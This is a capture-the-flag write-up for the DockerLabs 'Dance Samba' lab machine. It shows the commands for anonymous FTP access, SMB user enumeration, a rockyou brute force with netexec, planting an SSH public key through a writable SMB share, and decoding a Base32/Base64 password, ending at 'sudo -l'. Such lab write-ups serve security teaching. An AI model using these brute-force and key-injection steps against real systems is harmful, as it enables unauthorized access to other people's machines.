# Dance Samba — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | FTP anonymous, SMB, enum4linux, netexec brute force, SSH key injection, Base32/Base64 decode, sudo |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```



Ports open: **21 (FTP)** with anonymous login allowed, **22 (SSH)**, **139 and 445 (SMB/Samba)**.

---

## 2. FTP Anonymous Access

Connected to FTP as `anonymous` with any password:

```bash
ftp <IP>
# User: anonymous
# Password: [anything]
```



Found and downloaded a `nota.txt` file:

```bash
get nota.txt
```





The note referenced two names: `Macarena` and `donald`. In CTF contexts, names found in files are either usernames or passwords.

---

## 3. SMB Enumeration

Used `enum4linux` to confirm valid usernames via SMB null session:

```bash
enum4linux -a <IP>
```



`macarena` was confirmed as a system user. `donald` was not a user — it turned out to be her password.

---

## 4. SMB Brute Force

To verify and find the password, ran a brute force with netexec:

```bash
nxc smb <IP> -u 'macarena' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```



Credentials: `macarena` : `donald`

---

## 5. SMB Access & SSH Key Injection

Connected to macarena's SMB share:

```bash
smbclient //172.17.0.2/macarena -U 'macarena' --option='client min protocol=SMB2'
```

The `--option='client min protocol=SMB2'` flag was required because the server did not support SMB1.





`user.txt` was readable from the share. More importantly, macarena had write permissions. Used this to plant an SSH public key for passwordless login — SSH is more comfortable than SMB for an interactive shell.

```bash
# Generate key pair on Kali
ssh-keygen -t rsa -f ./id_rsa_temp

# Upload public key via SMB
smbclient //172.17.0.2/macarena -U 'macarena%donald'
smb: \> mkdir .ssh
smb: \> cd .ssh
smb: \.ssh\> put id_rsa_temp.pub authorized_keys

# SSH in with the private key
ssh -i id_rsa_temp macarena@172.17.0.2
```

---

## 6. Privilege Escalation — Encoded Hash in /home/secrets

Found a file called `hash` in `/home/secrets`:

```bash
cat /home/secrets/hash
```



The content was double-encoded: first **Base32**, then **Base64** (or vice versa). Decoded both layers:

```bash
cat hash | base32 -d | base64 -d
# or
cat hash | base64 -d | base32 -d
```



The decoded value was macarena's actual password. Used it to check sudo permissions:

```bash
sudo -l
```





---

## Key Takeaways

**FTP anonymous login is always worth checking.** Files left on anonymous FTP often contain usernames, passwords, or hints. `nota.txt` held both a username and a password (though initially unclear which was which).

**Names in hint files can be either usernames or passwords.** `donald` looked like a username but was macarena's password. Always try both orientations when you find two strings.

**SMB write access → SSH key injection.** If you can write to a user's home directory via SMB, placing your public key in `.ssh/authorized_keys` gives passwordless SSH access — a much better shell than SMB.

**Multiple encoding layers are common obfuscation.** Base32 and Base64 are not encryption — they're encoding. Always try decoding suspicious strings through both, in both orders.
